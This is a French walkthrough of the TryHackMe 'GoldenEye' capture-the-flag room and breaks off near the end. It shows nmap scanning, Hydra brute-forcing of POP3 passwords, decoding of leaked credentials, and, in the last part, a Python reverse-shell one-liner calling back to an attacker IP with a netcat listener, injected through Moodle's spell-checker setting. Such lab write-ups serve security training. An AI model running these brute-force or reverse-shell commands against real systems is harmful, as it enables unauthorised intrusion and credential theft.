










# GoldenEye #

## Task 1 Intro & Enumeration ##

**First things first, connect to our network and deploy the machine.**

Cliquez sur start machine.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.243.62 goldeneye.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A goldeneye.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-18 15:14 CEST
Nmap scan report for goldeneye.thm (10.10.243.62)
Host is up (0.034s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE  VERSION
25/tcp    open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2018-04-24T03:22:34
|_Not valid after:  2028-04-21T03:22:34
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http     Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: GoldenEye Primary Admin Server
55006/tcp open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
|_ssl-date: TLS randomness does not represent time
55007/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: STLS CAPA AUTH-RESP-CODE RESP-CODES TOP UIDL PIPELINING SASL(PLAIN) USER
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
|_ssl-date: TLS randomness does not represent time
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/18%OT=25%CT=1%CU=44699%PV=Y%DS=2%DC=T%G=Y%TM=611D080
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   39.00 ms 10.9.0.1
2   39.36 ms goldeneye.thm (10.10.243.62)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.75 seconds

```

D'après le scan nmap on voit plusieurs services.  
Le service SMTP sur le port 25.    
Le service HTTP sur le port 80.    
Le service SSL/POP3 sur le port 55066.    
Le service POP3 sur le port 55007.    

**Use nmap to scan the network for all ports. How many ports are open?**

D'après le scan nmap on voit 4 port, le 25,80,55066 et 55007.   

La réponse est : 4  

**Take a look on the website, take a dive into the source code too and remember to inspect all scripts!**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://goldeneye.thm
<html>
<head>
<title>GoldenEye Primary Admin Server</title>
<link rel="stylesheet" href="index.css">
</head>

	<span id="GoldenEyeText" class="typeing"></span><span class='blinker'>&#32;</span>

<script src="terminal.js"></script>
	
</html>

```

On voit un fichier index.css et un fichier terminal.js disponible.    

**Who needs to make sure they update their default password?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://goldeneye.thm/terminal.js
var data = [
  {
    GoldenEyeText: "<span><br/>Severnaya Auxiliary Control Station<br/>****TOP SECRET ACCESS****<br/>Accessing Server Identity<br/>Server Name:....................<br/>GOLDENEYE<br/><br/>User: UNKNOWN<br/><span>Naviagate to /sev-home/ to login</span>"
  }
];

//
//Boris, make sure you update your default password. 
//My sources say MI6 maybe planning to infiltrate. 
//Be on the lookout for any suspicious network traffic....
//
//I encoded you p@ssword below...
//
//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
//
//BTW Natalya says she can break your codes
//

var allElements = document.getElementsByClassName("typeing");
for (var j = 0; j < allElements.length; j++) {
  var currentElementId = allElements[j].id;
  var currentElementIdContent = data[0][currentElementId];
  var element = document.getElementById(currentElementId);
  var devTypeText = currentElementIdContent;

 
  var i = 0, isTag, text;
  (function type() {
    text = devTypeText.slice(0, ++i);
    if (text === devTypeText) return;
    element.innerHTML = text + `<span class='blinker'>&#32;</span>`;
    var char = text.slice(-1);
    if (char === "<") isTag = true;
    if (char === ">") isTag = false;
    if (isTag) return type();
    setTimeout(type, 60);
  })();
}

```

Dans les commentaires on demande à boris de mettre à jour son mot de passe.   

Réponse : boris   

**Whats their password?**

Dans les commentaires on montre un mot de passe encodé.  

```bash
//I encoded you p@ssword below...
//
//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
```



On décode le mot de passe.    

La réponse est : InvincibleHack3r     

**Now go use those credentials and login to a part of the site.**



Sur la page principale on dit qu'il faut aller sur \/sev-home\/ pour s'identifier.   



On fournit les identifiants.   

## Task 2 Its mail time... ##

**Take a look at some of the other services you found using your nmap scan. Are the credentials you have re-usable?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ telnet goldeneye.thm 55007
Trying 10.10.243.62...
Connected to goldeneye.thm.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.

-ERR Unknown command.
quit
+OK Logging out
Connection closed by foreign host
```

Sur le service pop on essai de se connecter avec les mêmes identifiants ca ne fonctionne pas.    

**If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?** 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/wordlists/master/fasttrack.txt -nv
2021-08-18 16:25:01 URL:https://raw.githubusercontent.com/timruff/wordlists/master/fasttrack.txt [2006/2006] -> "fasttrack.txt" [1]

tim@kali:~/Bureau/tryhackme/write-up$ hydra -l boris -P ./fasttrack.txt pop3://goldeneye.thm:55007 -t 32
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-18 16:25:35
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 32 tasks per 1 server, overall 32 tasks, 222 login tries (l:1/p:222), ~7 tries per task
[DATA] attacking pop3://goldeneye.thm:55007/
[STATUS] 160.00 tries/min, 160 tries in 00:01h, 62 to do in 00:01h, 32 active
[55007][pop3] host: goldeneye.thm   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-18 16:26:41

```

Avec le programme hydra on brute force le mot de passe.   
On trouve le mot de passe qui est :  secret1!    

Réponse : secret1!  

** Inspect port 55007, what services is configured to use this port? **

On se connect sur se port avec telnet.  

La réponse est : telnet.    

**Login using that service and the credentials you found earlier.** 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ telnet goldeneye.thm 55007
Trying 10.10.243.62...
Connected to goldeneye.thm.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.

```

**What can you find on this service?**

On sur un servie pop3 de messagerie d'email.   

La réponse est : mail    

**What user can break Boris' codes?**

```bash
LIST
+OK 3 messages:
1 544
2 373
3 921

TOP 1 10
+OK
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id D9E47454B1
	for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye

Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.
.

TOP 2 10
+OK
Return-Path: <natalya@ubuntu>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id C3F2B454B1
	for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
From: natalya@ubuntu

Boris, I can break your codes!

```

Dans les mails un personne du nom natalya peut casser les codes de boris.

Réponse : natalya  

**Using the users you found on this service, find other users passwords**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l natalya -P ./fasttrack.txt pop3://goldeneye.thm:55007 -t 32
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-18 16:41:23
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 32 tasks per 1 server, overall 32 tasks, 222 login tries (l:1/p:222), ~7 tries per task
[DATA] attacking pop3://goldeneye.thm:55007/
[55007][pop3] host: goldeneye.thm   login: natalya   password: bird
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-18 16:42:09
```

On trouve le mot de passe de natalya.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ telnet goldeneye.thm 55007
Trying 10.10.243.62...
Connected to goldeneye.thm.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER natalya
+OK
PASS bird
+OK Logged in.
LIST
+OK 2 messages:
1 631
2 1048
.
TOP 1 10
+OK
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id D5EDA454B1
	for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
TOP 2 10
+OK
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id 17C96454B1
	for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
```

On se connect sur la messagerie de natalya, dans le deuxièmes emails, il y a un identifiant :    
Nom : xenia    
Mot de passe : RCP90rulez!  

**Keep enumerating users using this service and keep attempting to obtain their passwords via dictionary attacks.**  

Je n'ais pas les bon dictionnaires pour casser le mot de passe.    

## Task 3 GoldenEye Operators Training ##


**If you're on Windows do the same but in the "c:\Windows\System32\Drivers\etc\hosts" file**

Je suis sous linux.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.243.62 severnaya-station.com' >> /etc/hosts"
[sudo] Mot de passe de tim : 
```

**Once you have done that, in your browser navigate to: http://severnaya-station.com/gnocertdir**



On tombe sur cette page.   

**Try using the credentials you found earlier. Which user can you login as?**



C'est avec l'user xenia que l'on arrive à se connecter.   

**Have a poke around the site. What other user can you find?**



Dans les message on trouve un Dr Doak.   

La réponse est : doak   

**What was this users password?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l doak -P ./fasttrack.txt pop3://goldeneye.thm:55007 -t 32
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-18 17:15:35
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 32 tasks per 1 server, overall 32 tasks, 222 login tries (l:1/p:222), ~7 tries per task
[DATA] attacking pop3://goldeneye.thm:55007/
[STATUS] 160.00 tries/min, 160 tries in 00:01h, 62 to do in 00:01h, 32 active
[55007][pop3] host: goldeneye.thm   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-18 17:16:41
```

En brute forçant le mot de passe avec hydra on le trouve.    

La réponse est : goat   

**Use this users credentials to go through all the services you have found to reveal more emails**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ telnet goldeneye.thm 55007
Trying 10.10.243.62...
Connected to goldeneye.thm.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
TOP 1 10
+OK
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id 97DC24549D
	for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!


```

On trouve des identifiants : 
Nom : dr_doak    
Mot de passe : 4England!   

**What is the next user you can find from doak?** 

C'est nom trouvé dans l'email.  

Réponse : dr_doak   

**What is this users password?**   

C'est le mot de passe trouvé dans l'email.  

Réponse : 4England!  

**Take a look at their files on the moodle (severnaya-station.com)**



Dans le compte de dr_doak, dans les fichiers privés on trouve un lien \/dir007key\/for-007.jpg
Ca serait le mot passe de l'administrateur.   

**Download the attachments and see if there are any hidden messages inside them?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://severnaya-station.com/dir007key/for-007.jpg -nv
2021-08-18 17:29:13 URL:http://severnaya-station.com/dir007key/for-007.jpg [14896/14896] -> "for-007.jpg" [1]

tim@kali:~/Bureau/tryhackme/write-up$ exiftool for-007.jpg 
ExifTool Version Number         : 12.16
File Name                       : for-007.jpg
Directory                       : .
File Size                       : 15 KiB
File Modification Date/Time     : 2018:04:25 02:40:02+02:00
File Access Date/Time           : 2021:08:18 17:29:48+02:00
File Inode Change Date/Time     : 2021:08:18 17:29:13+02:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
X Resolution                    : 300
Y Resolution                    : 300
Exif Byte Order                 : Big-endian (Motorola, MM)
Image Description               : eFdpbnRlcjE5OTV4IQ==
Make                            : GoldenEye
Resolution Unit                 : inches
Software                        : linux
Artist                          : For James
Y Cb Cr Positioning             : Centered
Exif Version                    : 0231
Components Configuration        : Y, Cb, Cr, -
User Comment                    : For 007
Flashpix Version                : 0100
Image Width                     : 313
Image Height                    : 212
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 313x212
Megapixels                      : 0.066

```

Dans image description il y un message en base64.   

```bash
echo -n "eFdpbnRlcjE5OTV4IQ==" | base64 -d
xWinter1995x!
```

On le décode est on trouve :  xWinter1995x  

**Using the information you found in the last task, login with the newly found user.**

Nom  : admin
Mode de passe : xWinter1995x!

    

On se connecte avec les identifiants. 

**As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat**

 


Reverse shell.
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.228.66",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```
A la place du chemin ou se trouve spell, on met un reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port pour établir une connexion avec le reverse shell.   

 

On exécute  le reverse shell à partir du correcteur d'orthographe.   

```bash
